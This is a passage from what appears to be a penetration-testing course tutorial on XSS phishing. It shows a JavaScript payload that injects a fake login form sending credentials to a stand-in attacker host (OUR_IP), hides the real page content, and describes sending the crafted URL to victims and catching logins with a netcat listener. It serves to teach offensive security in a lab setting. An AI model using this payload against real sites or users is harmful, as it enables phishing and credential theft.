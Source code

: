 So, we can now use this id with the`remove()` function to remove the URL form:

Code: javascript

```javascript
document.getElementById('urlform').remove();
```

Now, once we add this code to our previous JavaScript code (after the`document.write` function), we can use this new JavaScript code in our payload:

Code: javascript

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed:

 ![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form_2.jpg)

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:


```html
...PAYLOAD... <!-- 
```

As we can see, this removes the remaining bit of original HTML code, and our payload should be ready. The page now looks like it legitimately requires a login:

 ![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form_3.jpg)

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended. Also try logging into the above login form and see what happens.

---

## Credential Stealing

Finally, we come to the part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error`This site canâ€™t be reached`. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a`site canâ€™t be reached` error.

So, let us start a simple`netcat` server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:

